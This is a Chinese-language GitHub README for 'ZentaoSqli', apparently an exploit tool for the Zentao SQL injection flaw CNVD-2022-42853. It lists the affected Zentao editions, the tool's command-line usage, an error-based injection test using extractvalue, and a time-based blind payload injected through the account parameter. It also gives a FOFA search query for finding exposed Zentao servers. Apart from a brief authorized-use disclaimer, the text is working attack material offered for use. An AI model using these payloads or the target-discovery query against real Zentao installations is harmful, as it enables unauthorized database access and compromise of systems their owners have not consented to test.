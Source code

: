 # ZentaoSqli 禅道存在SQL注入漏洞 CNVD-2022-42853

author:160team.west9B

**仅限用于安全研究人员在授权的情况下使用，遵守网络安全法，产生任何问题，后果自负，与作者无关。**

# 01-基本介绍

漏洞编号

CNVD-2022-42853  公开日期：2022/6/14

影响产品

禅道企业版 6.5

禅道旗舰版 3.0

禅道开源版 16.5

禅道开源版 16.5.beta1

# 02-使用说明

## usage: ./Zentao.exe -u url  (加http://)

禅道当前数据库都是zentao,判断注入条件 extractvalue(1,concat(0x7e,(database()),0x7e) == zentao

盲注payload account=admin';SELECT SLEEP(5)#

# Screenshots
![Image text](https://github.com/west9b/ZentaoSqli/blob/main/POC.png)

# fofa
app="易软天创-禅道系统"

